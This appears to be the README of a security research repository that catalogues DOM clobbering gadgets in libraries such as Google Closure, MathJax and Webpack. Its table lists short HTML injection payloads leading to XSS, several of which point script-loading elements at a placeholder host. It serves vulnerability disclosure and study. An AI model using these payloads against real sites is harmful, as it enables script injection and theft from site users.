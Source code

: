 # DOM Clobbering Collection

In this repo, we collect a list of client-side libraries that are either vulnerable to HTML injection or contain DOM Clobbering gadgets that lead to severe consequences, e.g., XSS.

## HTML Injection

## DOM Clobbering Gadgets

| Library | Version | Payloads | Impact | Found By |
|:-------:|:-------:|----------|:------:|:--------:|
| [Google Client API](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-client-api.md) | 5BIk7BglYEE | ```<iframe name="scripts" src=”https://api.google.com/js/api.js”>alert("GG!")</iframe><iframe name="scripts" src=”https://api.google.com/js/api.js”>alert("GG!")</iframe>``` | XSS | TheHulk |
| [Google Closure Library](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-closure-library.md) | v20230103 | ```<img name="currentScript" src="https://xxx.xxx.xxx/base.js"></img>``` | XSS | TheHulk |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax.md) | 2.7.x | ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax3.md) | 3.2.2 | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img> $$\require{tex}$$``` | XSS | TheHulk |
| [Webpack](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/webpack.md) | 5.x.x | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img>``` | XSS | TheHulk |
